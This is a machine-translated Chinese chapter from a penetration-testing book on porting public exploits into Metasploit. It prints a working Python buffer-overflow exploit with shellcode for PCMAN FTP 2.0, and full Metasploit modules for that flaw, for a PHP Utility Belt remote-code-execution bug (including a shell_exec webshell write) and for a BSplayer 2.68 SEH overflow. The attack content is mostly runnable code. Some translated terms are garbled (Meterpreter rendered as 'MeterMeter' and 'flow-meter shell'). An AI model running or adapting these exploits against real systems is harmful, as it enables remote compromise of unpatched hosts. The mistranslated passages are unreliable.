










# 移植漏洞

在上一章中，我们讨论了如何在 Metasploit 中编写漏洞利用。但是，在已经存在公共漏洞的情况下，我们不需要为特定软件创建漏洞。公开可用的漏洞可能使用不同的编程语言，如 Perl、Python、C 或其他语言。现在，让我们了解一些在各种不同编程语言中将漏洞移植到 Metasploit 框架的策略。这种机制使我们能够将现有的漏洞利用转化为与 Metasploit 兼容的漏洞利用，从而节省时间并使我们能够动态切换有效负载。在本章结束时，我们将了解以下主题：

*   从各种编程语言移植漏洞
*   从独立开发中发现要点
*   从现有独立扫描仪/工具脚本创建 Metasploit 模块

如果我们能够从现有的漏洞中找出哪些要点可以在 Metasploit 中使用，那么将脚本移植到 Metasploit 框架是一件容易的工作。

这种将漏洞利用移植到 Metasploit 的想法通过使独立脚本在广泛的网络（而不是单个系统）上可用来节省时间。此外，由于可以从 Metasploit 访问每个漏洞，因此它使渗透测试更有组织性。在接下来的部分中，让我们了解如何使用 Metasploit 实现可移植性。

# 导入基于堆栈的缓冲区溢出漏洞

在接下来的示例中，我们将看到如何将用 Python 编写的漏洞导入 Metasploit。可从以下位置下载公开可用的漏洞：[https://www.exploit-db.com/exploits/31255/](https://www.exploit-db.com/exploits/31255/) 。让我们按如下方式分析该漏洞：

```
import socket as s 
from sys import argv 

host = "127.0.0.1" 
fuser = "anonymous" 
fpass = "anonymous" 
junk = '\x41' * 2008 
espaddress = '\x72\x93\xab\x71' 
nops = 'x90' * 10 
shellcode= ("\xba\x1c\xb4\xa5\xac\xda\xda\xd9\x74\x24\xf4\x5b\x29\xc9\xb1"
"\x33\x31\x53\x12\x83\xeb\xfc\x03\x4f\xba\x47\x59\x93\x2a\x0e"
"\xa2\x6b\xab\x71\x2a\x8e\x9a\xa3\x48\xdb\x8f\x73\x1a\x89\x23"
"\xff\x4e\x39\xb7\x8d\x46\x4e\x70\x3b\xb1\x61\x81\x8d\x7d\x2d"
"\x41\x8f\x01\x2f\x96\x6f\x3b\xe0\xeb\x6e\x7c\x1c\x03\x22\xd5"
"\x6b\xb6\xd3\x52\x29\x0b\xd5\xb4\x26\x33\xad\xb1\xf8\xc0\x07"
"\xbb\x28\x78\x13\xf3\xd0\xf2\x7b\x24\xe1\xd7\x9f\x18\xa8\x5c"
"\x6b\xea\x2b\xb5\xa5\x13\x1a\xf9\x6a\x2a\x93\xf4\x73\x6a\x13"
"\xe7\x01\x80\x60\x9a\x11\x53\x1b\x40\x97\x46\xbb\x03\x0f\xa3"
"\x3a\xc7\xd6\x20\x30\xac\x9d\x6f\x54\x33\x71\x04\x60\xb8\x74"
"\xcb\xe1\xfa\x52\xcf\xaa\x59\xfa\x56\x16\x0f\x03\x88\xfe\xf0"
"\xa1\xc2\xec\xe5\xd0\x88\x7a\xfb\x51\xb7\xc3\xfb\x69\xb8\x63"
"\x94\x58\x33\xec\xe3\x64\x96\x49\x1b\x2f\xbb\xfb\xb4\xf6\x29"
"\xbe\xd8\x08\x84\xfc\xe4\x8a\x2d\x7c\x13\x92\x47\x79\x5f\x14"
"\xbb\xf3\xf0\xf1\xbb\xa0\xf1\xd3\xdf\x27\x62\xbf\x31\xc2\x02"
 "\x5a\x4e")

sploit = junk+espaddress+nops+shellcode
conn = s.socket(s.AF_INET,s.SOCK_STREAM)
conn.connect((host,21))
conn.send('USER '+fuser+'\r\n')
uf = conn.recv(1024)
conn.send('PASS '+fpass+'\r\n')
pf = conn.recv(1024)
conn.send('CWD '+sploit+'\r\n')
cf = conn.recv(1024)
conn.close()

```

此直接攻击使用匿名凭据登录到端口`21`上的 PCMAN FTP 2.0 软件，并使用`CWD`命令攻击该软件。

上一次利用漏洞的整个过程可分为以下几点：

1.  在`fuser`、`pass`和`host`变量中存储用户名、密码和主机。
2.  为`junk`变量分配`2008`A 字符。这里，`2008`是覆盖 EIP 的偏移量。
3.  将 JMP ESP 地址分配给`espaddress`变量。这里，`espaddress 0x71ab9372`是目标返回地址。
4.  在`nops`变量中存储 10 个 NOP。
5.  将用于执行计算器的有效负载存储在`shellcode`变量中。
6.  连接`junk`、`espaddress`、`nops`和`shellcode`并将它们存储在`sploit`变量中。
7.  使用`s.socket(s.AF_INET,s.SOCK_STREAM)`设置插座，并使用端口 21 上的`connect((host,21))`连接到主机。
8.  使用`USER`和`PASS`提供`fuser`和`fpass`成功登录目标。
9.  发出`CWD`命令，后跟`sploit`变量。这将导致 EIP 覆盖偏移量为`2008`并弹出计算器应用程序。
10.  让我们尝试执行利用漏洞攻击，并按如下方式分析结果：



最初的攻击从命令行获取用户名、密码和主机。然而，我们用固定的硬编码值修改了机制。

我们执行攻击后，立即显示以下屏幕：



我们可以看到计算器应用程序已经弹出，表明该漏洞正在正常工作。

# 收集精华

让我们从下表中找出需要从前面的漏洞中获取哪些基本值，以在 Metasploit 中生成等效模块：

| **序列号** | **变量** | **值** |
| 1. | 偏移值 | `2008` |
| 2. | 使用 JMP ESP 搜索在可执行模块中找到目标返回/跳转地址/值 | `0x71AB9372` |
| 3. | 目标端口 | `21` |
| 4. | 外壳代码的前导 NOP 字节数，用于删除不规则项 | `10` |
| 5. | 思维方式 | `CWD`命令后面是 2008 字节的垃圾数据，后面是 EIP、NOPs 和外壳代码 |

我们拥有构建 Metasploit 模块所需的所有信息。在下一节中，我们将看到 Metasploit 如何帮助 FTP 进程，以及在 Metasploit 中创建漏洞利用模块是多么容易。

# 生成 Metasploit 模块

开始构建 Metasploit 模块的最佳方法是复制现有的类似模块并对其进行更改。然而，`Mona.py`脚本也可以动态生成特定于 Metasploit 的模块。我们将在本书的后面几节中看到如何使用`Mona.py`脚本生成快速利用漏洞。

现在让我们看一下 Metasploit 中利用漏洞的等效代码，如下所示：

```
class MetasploitModule < Msf::Exploit::Remote 
  Rank = NormalRanking 

  include Msf::Exploit::Remote::Ftp 

  def initialize(info = {}) 
    super(update_info(info, 
      'Name'           => 'PCMAN FTP Server Post-Exploitation CWD Command', 
      'Description'    => %q{ 
          This module exploits a buffer overflow vulnerability in PCMAN FTP 
      }, 
      'Author'         => 
          [ 
            'Nipun Jaswal' 
          ], 
      'DefaultOptions' => 
        { 
          'EXITFUNC' => 'process', 
          'VERBOSE'  => true 
        }, 
      'Payload'        => 
        { 
          'Space'   => 1000, 
          'BadChars'  => "\x00\xff\x0a\x0d\x20\x40", 
        }, 
      'Platform'       => 'win', 
      'Targets'        => 
        [ 
          [ 'Windows XP SP2 English', 
            { 
              'Ret' => 0x71ab9372, 
              'Offset' => 2008 
            } 
          ], 
        ], 
      'DisclosureDate' => 'May 9 2016', 
      'DefaultTarget'  => 0)) 
register_options( 
        [ 
                Opt::RPORT(21), 
         OptString.new('FTPPASS', [true, 'FTP Password', 'anonymous']) 
        ]) 
  End 
```

在上一章中，我们研究了许多利用模块。这种利用也不例外。我们首先包括所有必需的库和来自`/lib/msf/core/exploit`目录的`ftp.rb`库。接下来，我们在`initialize`部分分配了所有必要的信息。我们从漏洞中收集要点，将返回地址分配给`Ret`，并将`Offset`设置为`2008`。我们还将`FTPPASS`期权的价值声明为`'anonymous'`。让我们看看代码的下一部分：

```
def exploit 
    c = connect_login 
    return unless c 
    sploit = rand_text_alpha(target['Offset']) 
    sploit << [target.ret].pack('V') 
    sploit << make_nops(10) 
    sploit << payload.encoded 
    send_cmd( ["CWD " + sploit, false] ) 
    disconnect 
  end 
end 
```

`connect_login`方法将连接到目标并尝试使用我们提供的匿名凭据登录软件。但是等等！我们什么时候提供凭证的？模块的`FTPUSER`和`FTPPASS`选项通过包含 FTP 库自动启用。`FTPUSER`的默认值为`anonymous`。但是，对于`FTPPASS`，我们已经在`register_options`中提供了`anonymous`值。

接下来，我们使用`rand_text_alpha`从`Targets`字段中使用`Offset`的值生成`2008`的垃圾，然后将其存储在`sploit`变量中。我们还使用`sploit`变量中的`pack('V')`函数，以小端格式保存`Targets`字段中的`Ret`值。将`make_nop`函数生成的 NOP 与外壳代码连接起来，我们将其存储到`sploit`变量中。我们的输入数据已准备好提供。

接下来，我们使用 FTP 库中的`send_cmd`函数将`sploit`变量中的数据发送到`CWD`命令中的目标。那么，Metasploit 有何不同？让我们看看：

*   我们不需要创建垃圾数据，因为`rand_text_aplha`函数为我们创建了垃圾数据。
*   我们不需要以 little-endian 格式提供`Ret`地址，因为`pack('V')`函数帮助我们进行转换。
*   我们从不需要手动指定 NOP，因为`make_nops`自动为我们指定了 NOP。
*   我们不需要提供任何硬编码外壳代码，因为我们可以在运行时决定和更改有效负载。这通过消除对外壳代码的手动更改来节省时间。
*   我们只是利用 FTP 库来创建和连接套接字。
*   最重要的是，我们不需要使用手动命令进行连接和登录，因为 Metasploit 使用一种方法为我们完成了连接和登录，即`connect_login`。

# 使用 Metasploit 开发目标应用程序

我们看到了 Metasploit 的使用比现有的漏洞利用有多大的好处。让我们利用该应用程序并分析结果：


我们可以看到，`FTPPASS`和`FTPUSER`已经将值设置为`anonymous`。让我们提供`RHOST`和有效负载类型以利用目标机器，如下所示：



我们可以看到我们的攻击成功执行。Metasploit 还提供了一些额外的特性，这使得开发更加智能化。我们将在下一节中介绍这些功能。

# 在 Metasploit 中实现漏洞检查方法

在 Metasploit 中，可以在利用易受攻击的应用程序之前检查易受攻击的版本。这一点非常重要，因为如果在目标上运行的应用程序版本不易受攻击，则可能导致应用程序崩溃，并且攻击目标的可能性为零。让我们为上一节中开发的应用程序编写一个示例检查代码，如下所示：

```
  def check 
    c = connect_login 
    disconnect 
    if c and banner =~ /220 PCMan's FTP Server 2\.0/ 
      vprint_status("Able to authenticate, and banner shows the vulnerable version") 
      return Exploit::CheckCode::Appears 
     elsif not c and banner =~ /220 PCMan's FTP Server 2\.0/ 
      vprint_status("Unable to authenticate, but banner shows the vulnerable version") 
      return Exploit::CheckCode::Appears 
    end 
    return Exploit::CheckCode::Safe 
  end 
```

我们通过调用`connect_login`方法开始`check`方法。这将启动与目标的连接。如果连接成功且应用程序返回横幅，我们将使用正则表达式将其与易受攻击应用程序的横幅匹配。如果标题匹配，我们使用`Exploit::Checkcode::Appears`将应用程序标记为易受攻击。但是，如果我们无法进行身份验证，但标题是正确的，我们将返回相同的`Exploit::Checkcode::Appears`值，这表示应用程序易受攻击。如果所有这些检查都失败，我们将返回`Exploit::CheckCode::Safe`以将应用程序标记为不易受攻击。

让我们通过发出如下的`check`命令来查看应用程序是否易受攻击：



我们可以看到应用程序易受攻击。我们可以继续开发。

有关实施`check`方法的更多信息，请参阅：[https://github.com/rapid7/metasploit-framework/wiki/How-to-write-a-check%28%29-方法](https://github.com/rapid7/metasploit-framework/wiki/How-to-write-a-check%28%29-method)。

# 将基于 web 的 RCE 导入 Metasploit

在本节中，我们将了解如何将 web 应用程序漏洞导入 Metasploit。在本章中，我们的全部重点将是掌握与不同编程语言中使用的函数等效的基本函数。在本例中，我们将查看 2015 年 12 月 8 日披露的 PHP 实用程序带远程代码执行漏洞。易受攻击的应用程序可从以下位置下载：[https://www.exploit-db.com/apps/222c6e2ed4c86f0646016e43d1947a1f-php-utility-belt-master.zip](https://www.exploit-db.com/apps/222c6e2ed4c86f0646016e43d1947a1f-php-utility-belt-master.zip) 。

远程代码执行漏洞存在于`POST`请求的代码参数中，当使用巧尽心思构建的数据进行操作时，可能导致执行服务器端代码。让我们看看如何手动利用此漏洞，如下所示：



我们在前面的屏幕截图中使用的命令是`fwrite`，它将数据写入文件。我们使用`fwrite`以可写模式打开一个名为`info.php`的文件。我们写了`<?php $a = "net user"; echo shell_exec($a);?>`到文件中。

当我们的命令运行时，它将创建一个名为`info.php`的新文件，并将 PHP 内容放入该文件中。接下来，我们只需要浏览到`info.php`文件，在那里可以看到命令的结果。

让我们浏览到`info.php`文件，如下所示：


我们可以看到`info.php`页面上列出了所有的用户账号。要为 PHP belt 远程代码执行漏洞编写 Metasploit 模块，我们需要向页面发出 GET/POST 请求。我们需要发出请求，将恶意数据发布到易受攻击的服务器上，并可能获得 MeterMeter 访问权限。

# 收集精华

在利用 Metasploit 中基于 web 的缺陷时，最重要的事情是找出 web 方法，找出使用这些方法的方法，并找出要传递给这些方法的参数。此外，我们还需要知道易受攻击的文件的确切路径。在这种情况下，我们知道该漏洞存在于`CODE`参数中。

# 掌握 web 的重要功能

web 应用程序上下文中的重要 web 方法位于`/lib/msf/core/exploit/http`下的`client.rb`库文件中，该库文件进一步链接到`/lib/rex/proto/http`下的`client.rb`和`client_request.rb`文件，其中包含与`GET`和`POST`请求相关的核心变量和方法。

`/lib/msf/core/exploit/http/client.rb`库文件中的以下方法可用于创建 HTTP 请求：


当发出基于 HTTP 的请求时，`send_request_raw`和`send_request_cgi`方法是相关的，但在不同的上下文中。

我们有`send_request_cgi`，它在某些情况下比传统的`send_request_raw`功能提供了更多的灵活性，而`send_request_raw`有助于建立更直接的连接。我们将在接下来的章节中详细讨论这些方法。

为了了解需要传递给这些函数的值，我们需要研究`REX`库。`REX`库提供与请求类型相关的以下标头：



通过使用前面的参数，我们可以传递与请求相关的各种值。其中一个例子是设置我们特定的 cookie 和我们选择的许多其他参数。让我们保持简单，重点关注`URI`参数，即可利用 web 文件的路径。

`method`参数指定它是`GET`或`POST`类型的请求。我们将在向目标获取/发布数据时使用这些工具。

# GET/POST 方法的要点

`GET`方法将从指定资源请求数据或网页，并使用它浏览网页。另一方面，`POST`命令将表单或特定值中的数据发送到资源进行进一步处理。现在，当编写基于 web 的漏洞利用时，这很方便。HTTP 库简化了将特定查询或数据发布到指定页面的过程。

让我们看看我们需要在这个漏洞中执行什么：

1.  创建一个`POST`请求
2.  使用`CODE`参数将有效负载发送到易受攻击的应用程序
3.  获取对目标的 MeterMeter 访问权限
4.  执行一些后期开发功能

我们清楚我们需要完成的任务。让我们再做一步，生成一个兼容的匹配漏洞，并确认它正在工作。

# 将 HTTP 漏洞导入 Metasploit

让我们编写针对 Metasploit 中 PHP 实用程序带远程代码执行漏洞的漏洞攻击，如下所示：

```
class MetasploitModule < Msf::Exploit::Remote 

  include Msf::Exploit::Remote::HttpClient 

  def initialize(info = {}) 
    super(update_info(info, 
      'Name'           => 'PHP Utility Belt Remote Code Execution', 
      'Description'    => %q{ 
         This module exploits a remote code execution vulnerability in PHP Utility Belt 
      }, 
      'Author'         => 
        [ 
          'Nipun Jaswal', 
        ], 
      'DisclosureDate' => 'May 16 2015', 
      'Platform'       => 'php', 
      'Payload'        => 
        { 
          'Space'       => 2000, 
          'DisableNops' => true 
        }, 
      'Targets'        => 
        [ 
          ['PHP Utility Belt', {}] 
        ], 
      'DefaultTarget'  => 0 
    )) 

    register_options( 
      [ 
        OptString.new('TARGETURI', [true, 'The path to PHP Utility Belt', '/php-utility-belt/ajax.php']), 
   OptString.new('CHECKURI',[false,'Checking Purpose','/php-utility-belt/info.php']), 
      ]) 
  end 
```

我们可以看到，我们已经声明了所有必需的库，并在 initialize 部分中提供了必要的信息。因为我们正在利用一个基于 PHP 的漏洞，所以我们选择平台为 PHP。我们将`DisableNops`设置为 true 以关闭有效负载中的`NOP`使用，因为该漏洞攻击的目标是 web 应用程序中的远程代码执行漏洞，而不是基于软件的漏洞。我们知道该漏洞存在于`ajax.php`文件中。因此，我们向`ajax.php`文件声明了`TARGETURI`的值。我们还创建了一个名为`CHECKURI`的新字符串变量，它将帮助我们创建一个漏洞检查方法。让我们看一下漏洞的下一部分：

```
def check 
  send_request_cgi( 
      'method'    => 'POST', 
      'uri'       => normalize_uri(target_uri.path), 
      'vars_post' => { 
        'code' => "fwrite(fopen('info.php','w'),'<?php echo phpinfo();?>');" 
      } 
   ) 
  resp = send_request_raw({'uri' => normalize_uri(datastore['CHECKURI']),'method' => 'GET'}) 
  if resp.body =~ /phpinfo()/ 
   return Exploit::CheckCode::Vulnerable 
  else 
   return Exploit::CheckCode::Safe 
  end 
  end 
```

我们使用`send_request_cgi`方法以有效的方式适应`POST`请求。我们将 method 的值设置为`POST`，URI 设置为规范化格式的目标 URI，`POST`参数`CODE`的值设置为`fwrite(fopen('info.php','w'),'<?php echo phpinfo();?>');`。该有效负载将在编写代码时创建一个名为`info.php`的新文件，执行该代码时，将显示一个 PHP 信息页面。我们创建了另一个获取刚刚创建的`info.php`文件内容的请求。我们使用`send_request_raw`技术并将方法设置为`GET`。我们前面创建的`CHECKURI`变量将用作此请求的 URI。

我们可以看到，我们将请求的结果存储在`resp`变量中。接下来，我们将`resp`的主体与`phpinfo()`表达式匹配。如果结果为真，则表示在目标上成功创建了`info.php`文件，`Exploit::CheckCode::Vulnerable`的值将返回给用户，用户将显示一条消息，将目标标记为易受攻击。否则，将使用`Exploit::CheckCode::Safe`标记目标为安全。现在让我们跳到利用漏洞的方法：

```
  def exploit 
    send_request_cgi( 
      'method'    => 'POST', 
      'uri'       => normalize_uri(target_uri.path), 
      'vars_post' => { 
        'code' => payload.encoded 
      } 
    ) 
  end 
end 
```

我们可以看到，我们刚刚创建了一个简单的`POST`请求，代码参数中包含了我们的负载。一旦它在目标上执行，我们就可以访问 PHP MeterMeter。让我们看看这个漏洞的实际应用：


我们可以看到目标上有 MeterMeter 访问权限。我们已成功地将远程代码执行漏洞转化为 Metasploit 中的有效漏洞。

PHP 实用程序带的官方 Metasploit 模块已经存在。您可以从以下位置下载该漏洞：[https://www.exploit-db.com/exploits/39554/](https://www.exploit-db.com/exploits/39554/) 。

# 将基于 TCP 服务器/浏览器的漏洞导入 Metasploit

在下一节中，我们将了解如何在 Metasploit 中导入基于浏览器或基于 TCP 服务器的漏洞利用。

在应用程序测试或渗透测试期间，我们可能会遇到无法解析请求/响应中的数据并最终崩溃的软件。让我们看一个在解析数据时存在漏洞的应用程序示例：


本例中使用的应用程序是 BSplayer 2.68。我们可以看到，我们在端口`81`上监听了一个 Python 漏洞。该漏洞存在于用户试图播放 URL 中的视频时解析远程服务器的响应中。让我们看看在端口`81`上尝试从侦听器流式传输内容时会发生什么：



我们可以看到计算器应用程序弹出，这表示该漏洞正在成功利用。

从[下载 BSplayer 2.68 的 Python 漏洞 https://www.exploit-db.com/exploits/36477/](https://www.exploit-db.com/exploits/36477/) 。

让我们看看漏洞代码并从中收集基本信息以构建 Metasploit 模块：


这种利用方式很简单。然而，该漏洞的作者使用了向后跳转技术来查找有效负载交付的外壳代码。该技术用于对抗空间限制。这里需要注意的另一件事是，由于漏洞的性质，作者已两次发送恶意缓冲区以执行有效负载。让我们在下一节中尝试构建一个表，其中包含将此漏洞转换为 Metasploit 兼容模块所需的所有数据。

# 收集精华

让我们看下表，其中突出显示了所有必要的值及其用法：

| **序列号** | **变量** | **值** |
| 1. | 偏移值 | `2048` |
| 2. | 内存中包含 POP-POP-RETN 系列指令/P-P-R 地址的已知位置 | `0x0000583b` |
| 3. | 向后跳转/跳远以查找外壳代码 | `\xe9\x85\xe9\xff\xff` |
| 4. | 短跳转/指向下一个 SEH 帧的指针 | `\xeb\xf9\x90\x90` |

我们现在已经具备了为 BSplayer 2.68 应用程序构建 Metasploit 模块的所有基本要素。我们可以看到，作者将外壳代码精确地放在了`2048`NOPs 之后。但是，这并不意味着实际偏移值为`2048`。该漏洞的作者已将其置于 SEH 覆盖之前，因为可能没有空间用于外壳代码。但是，我们将以该值作为偏移量，因为我们将遵循原始利用的确切过程。此外，`\xcc`是一个断点操作码，但在这次攻击中，它被用作填充。由于存在空间限制，`jmplong`变量将向后跳转存储到外壳代码。`nseh`变量存储下一帧的地址，这只是一个短跳转，正如我们在上一章中讨论的那样。`seh`变量存储`P/P/R`指令序列的地址。

这里需要注意的一点是，在这个场景中，我们需要目标连接到我们的攻击服务器，而不是试图到达目标机器。因此，我们的攻击服务器应始终侦听传入的连接，并根据请求发送恶意内容。

# 生成 Metasploit 模块

让我们从 Metasploit 中的漏洞编码部分开始：

```
class MetasploitModule < Msf::Exploit::Remote 
  Rank = NormalRanking 

  include Msf::Exploit::Remote::TcpServer 

  def initialize(info={}) 
    super(update_info(info, 
      'Name'           => "BsPlayer 2.68 SEH Overflow Exploit", 
      'Description'    => %q{ 
        Here's an example of Server Based Exploit 
      }, 
      'Author'         => [ 'Nipun Jaswal' ], 
      'Platform'       => 'win', 
      'Targets'        => 
        [ 
          [ 'Generic', {'Ret' => 0x0000583b, 'Offset' => 2048} ], 
        ], 
      'Payload'  =>  
       { 
       'BadChars' => "\x00\x0a\x20\x0d" 
       }, 
      'DisclosureDate' => "May 19 2016", 
      'DefaultTarget'  => 0)) 
  end 
```

在使用了这么多漏洞之后，我们可以看到前面的代码部分没有什么不同，除了来自`/lib/msf/core/exploit/tcp_server.rb`的 TCP 服务器库文件。TCP 服务器库提供了处理传入请求和以各种方式处理它们所需的所有必要方法。包含此库可启用其他选项，如`SRVHOST`、`SRVPORT`和`SSL`。让我们看一下代码的其余部分：

```
def on_client_connect(client) 
return if ((p = regenerate_payload(client)) == nil) 
    print_status("Client Connected") 
    sploit = make_nops(target['Offset']) 
    sploit << payload.encoded 
    sploit << "\xcc" * (6787-2048 - payload.encoded.length)  
    sploit << "\xe9\x85\xe9\xff\xff"  
    sploit << "\xeb\xf9\x90\x90" 
    sploit << [target.ret].pack('V') 
    client.put(sploit) 
    client.get_once 
    client.put(sploit) 
    handler(client) 
    service.close_client(client) 
  end 
end 
```

我们可以看到，我们没有利用这种类型的利用方法。然而，我们有`on_client_connect`、`on_client_data`和`on_client_disconnect`方法。最有用、最简单的方法是`on_client_connect`方法。一旦客户端连接到所选`SRVHOST`和`SRVPORT`上的漏洞攻击服务器，就会触发此方法。

我们可以看到，我们使用`make_nops`以 Metasploit 方式创建了 NOP，并使用`payload.encoded`嵌入了有效负载，从而消除了硬编码有效负载的使用。我们使用与原始开发中使用的方法类似的方法组装了`sploit`变量的其余部分。但是，为了在请求时将恶意数据发送回目标，我们使用了`client.put()`，它将使用我们选择的数据向目标做出响应。由于利用漏洞需要向目标发送两次数据，因此我们使用`client.get_once`确保数据传输两次，而不是合并到单个单元中。将数据发送两次到目标，我们启动处理程序，该处理程序会主动查找成功利用漏洞的传入会话。最后，我们通过发出`service.client_close`调用来关闭与目标的连接。

我们可以看到我们在代码中使用了`client`对象。这是因为来自特定目标的传入请求将被视为一个单独的对象，它还将允许多个目标同时连接。

让我们看看我们的 Metasploit 模块的运行情况：



让我们从 BSplayer 2.8 连接到端口`8080`上的漏洞攻击服务器，如下所示：



一旦尝试连接到我们的利用漏洞处理程序，MeterMeter 有效负载就会传送到目标，我们将看到以下屏幕：



头奖现在可以访问流量计外壳。我们使用 TCP 服务器库成功地在 Metasploit 中编写了一个利用漏洞的服务器模块。在 Metasploit 中，我们还可以使用 HTTP 服务器库建立 HTTP 服务器功能。

有关 HTTP 服务器功能的更多信息，请参阅：[https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/http/server.rb](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/http/server.rb) 。

# 总结

